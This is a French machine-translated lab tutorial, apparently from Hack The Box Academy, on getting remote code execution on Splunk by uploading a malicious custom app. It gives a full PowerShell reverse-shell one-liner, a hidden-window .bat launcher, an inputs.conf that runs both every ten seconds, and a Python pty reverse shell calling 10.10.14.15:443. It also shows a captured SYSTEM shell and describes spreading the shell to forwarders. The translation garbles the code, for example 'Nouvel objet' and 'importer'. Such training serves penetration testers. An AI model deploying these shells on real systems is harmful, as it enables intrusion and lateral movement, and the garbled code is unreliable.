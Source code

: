 Splunk attaquant
================

* * * * *

Comme indiqué dans la section précédente, nous pouvons obtenir l'exécution de code à distance sur Splunk en créant une application personnalisée pour exécuter des scripts Python, Batch, Bash ou PowerShell. Lors de l'analyse de découverte de Nmap, nous avons remarqué que notre cible est un serveur Windows. Étant donné que Splunk est livré avec Python installé, nous pouvons créer une application Splunk personnalisée qui nous permet d'exécuter du code à distance à l'aide de Python ou d'un script PowerShell.

* * * * *

Abus des fonctionnalités intégrées
------------------------------

Nous pouvons utiliser [ce](https://github.com/0xjpuff/reverse_shell_splunk) paquet Splunk pour nous aider. Le répertoire `bin` de ce référentiel contient des exemples pour [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) et [PowerShell](https://github. com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Passons en revue cette étape par étape.

Pour ce faire, nous devons d'abord créer une application Splunk personnalisée en utilisant la structure de répertoires suivante.

```
dsgsec@htb[/htb]$ arbre splunk_shell/

splunk_shell/
├── poubelle
└── par défaut

2 répertoires, 0 fichiers

```

Le répertoire `bin` contiendra tous les scripts que nous avons l'intention d'exécuter (dans ce cas, un reverse shell PowerShell), et le répertoire par défaut contiendra notre fichier `inputs.conf`. Notre coque inversée sera une doublure PowerShell.

```
#Une coque inversée simple et petite. Options et aide supprimées pour économiser de l'espace.
# Décommentez et modifiez l'adresse IP et le numéro de port codés en dur dans la ligne ci-dessous. Supprimez également tous les commentaires d'aide.
$client = Nouvel objet System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0} ;while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding ]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

Le fichier [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) indique à Splunk le script à exécuter et toute autre condition. Ici, nous définissons l'application comme activée et demandons à Splunk d'exécuter le script toutes les 10 secondes. L'intervalle est toujours en secondes et l'entrée (script) ne s'exécutera que si ce paramètre est présent.

```
dsgsec@htb[/htb]$ cat inputs.conf

[script://./bin/rev.py]
désactivé = 0
intervalle = 10
type de source = shell

[script://.\bin\run.bat]
désactivé = 0
type de source = shell
intervalle = 10

```

Nous avons besoin du fichier .bat, qui s'exécutera lorsque l'application sera déployée et exécutera le one-liner PowerShell.

```
@ÉCHO OFF
PowerShell.exe -exec bypass -w caché -Commande "& '%~dpn0.ps1'"
Sortie

```

Une fois les fichiers créés, nous pouvons créer un fichier tarball ou `.spl` .

```
dsgsec@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/par défaut/
splunk_shell/default/inputs.conf

```

L'étape suivante consiste à choisir `Installer l'application à partir du fichier` et à télécharger l'application.

![](https://academy.hackthebox.com/storage/modules/113/install_app.png)

Avant de télécharger l'application personnalisée malveillante, démarrons un écouteur à l'aide de Netcat ou [socat](https://linux.die.net/man/1/socat).

```
dsgsec@htb[/htb]$ sudo nc -lnvp 443

écoute sur [tout] 443 ...

```

Sur la page `Télécharger l'application` , cliquez sur parcourir, choisissez l'archive que nous avons créée précédemment et cliquez sur `Télécharger`.

![](https://academy.hackthebox.com/storage/modules/113/upload_app.png)

Dès que nous téléchargeons l'application, un reverse shell est reçu car le statut de l'application passe automatiquement à `Activé`.

```
dsgsec@htb[/htb]$ sudo nc -lnvp 443

écoute sur [tout] 443 ...
se connecter à [10.10.14.15] depuis (INCONNU) [10.129.201.50] 53145

PS C:\Windows\system32> whoami

autorité nt\système

PS C:\Windows\system32> nom d'hôte

APP03

PS C:\Windows\system32>

```

Dans ce cas, nous avons récupéré un shell sous le nom `NT AUTHORTY\SYSTEM`. S'il s'agissait d'une évaluation du monde réel, nous pourrions procéder à l'énumération de la cible des informations d'identification dans le registre, la mémoire ou stockées ailleurs sur le système de fichiers à utiliser pour le mouvement latéral au sein du réseau. S'il s'agissait de notre point de départ initial dans l'environnement de domaine, nous pourrions utiliser cet accès pour commencer à énumérer le domaine Active Directory.

Si nous avions affaire à un hôte Linux, nous aurions besoin de modifier le script Python `rev.py` avant de créer l'archive tar et de télécharger l'application malveillante personnalisée. Le reste du processus serait le même, et nous obtiendrions une connexion shell inversée sur notre écouteur Netcat et partirions pour les courses.

Code : python

```
importer sys, socket, système d'exploitation, pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) pour fd dans (0,1,2)]
pty.spawn('/bin/bash')

```

Si l'hôte Splunk compromis est un serveur de déploiement, il sera probablement possible d'obtenir RCE sur n'importe quel hôteavec Universal Forwarders installés dessus. Pour pousser un reverse shell vers d'autres hôtes, l'application doit être placée dans le répertoire `$SPLUNK_HOME/etc/deployment-apps` sur l'hôte compromis. Dans un environnement Windows lourd, nous devrons créer une application à l'aide d'un shell inversé PowerShell car les redirecteurs universels ne s'installent pas avec Python comme le serveur Splunk.